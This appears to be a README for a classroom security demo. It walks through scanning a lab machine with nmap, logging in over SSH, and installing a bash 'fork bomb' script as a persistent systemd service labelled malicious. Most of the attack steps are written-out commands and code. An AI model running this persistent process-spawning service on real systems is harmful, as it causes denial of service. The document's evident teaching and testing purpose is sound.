 # Fork Bomb Demo

This demo showcases the setup and execution of a fork bomb on a remote machine. The fork bomb script is installed as a systemd service and runs under the demo user.

## Prerequisites

- SSH access to the target machine (ST24-401D - 10.10.248.157) with user `cs401`.
- `sudo` privileges on the target machine.
- Basic understanding of systemd services and bash scripting.

## Execute Script for automatic execution

Run the demo.sh script without sudo, and it will execute the attack itself.

```bash
~/ProtectNet/demo/demo.sh
```

## automatic execution

In case you want to run the attack on your own in live, all you need to do is run the following steps:

1. **Execute Demo Script**

    Run the demo script and insert the password for the demo user:

    ```bash
    ./demo.sh
    ```
1. **SSH into the Target Machine as the Demo User**

   Connect via SSH to remote host as `demo` user:

   ```bash
   ssh demo@10.10.248.158
   ```
1. **Execute Attack Script**

   Run the attack script and insert the password for the demo user:

   ```bash
   ./attack.sh
   ```
   
## Explanation - Steps in Script

1. **Login to the Target Machine**

    Use SSH to log in to the attacker machine with the `cs401` user.

    ```bash
    ssh cs401@10.10.248.157
    ```

1. **Run a Port Scan**

    Perform a port scan on the target machine to identify open ports.

    ```bash
    sudo nmap -p 1-30 10.10.248.158
    ```

1. **SSH into the Target Machine as the Demo User**

    Switch to the demo user on the target machine.

    ```bash
    ssh demo@10.10.248.158
    ```

1. **Create the Fork Bomb Script**

    Create a bash script that continuously spawns child processes.

    ```bash
    sudo touch /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo tee /usr/local/bin/fork_bomb.sh > /dev/null << EOF
    #!/bin/bash

    create_child_process() {
        sleep 9999 &
        child_pid=\$!
        echo "Created child process with PID: \$child_pid"
    }

    trap 'kill \$(jobs -p); exit' SIGINT SIGTERM

    while true
    do
        for i in \$(seq 1 60);
        do
            create_child_process
        done
        sleep 30
    done
    EOF
    ```

1. **Make the Script Executable and Set Ownership**

    Grant execute permissions to the script and change its ownership to the demo user.

    ```bash
    sudo chmod +x /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo chown demo: /usr/local/bin/fork_bomb.sh
    ```

1. **Create a systemd Service for the Fork Bomb**

    Set up a systemd service to manage the fork bomb script.

    ```bash
    sudo touch /etc/systemd/system/fork.service
    ```

    ```bash
    sudo tee /etc/systemd/system/fork.service > /dev/null << EOF
    [Unit]
    Description=Malicious Fork Bomb Service
    After=network.target

    [Service]
    ExecStart=/usr/local/bin/fork_bomb.sh
    ExecStop=/bin/kill -s SIGTERM \$MAINPID
    Restart=always
    User=demo
    KillMode=process
    Type=simple

    [Install]
    WantedBy=multi-user.target
    EOF
    ```

1. **Reload systemd and Start the Fork Bomb Service**

    Reload systemd to recognize the new service and then start the fork bomb.

    ```bash
    sudo systemctl daemon-reload
    ```

    ```bash
    sudo systemctl start fork.service
    ```
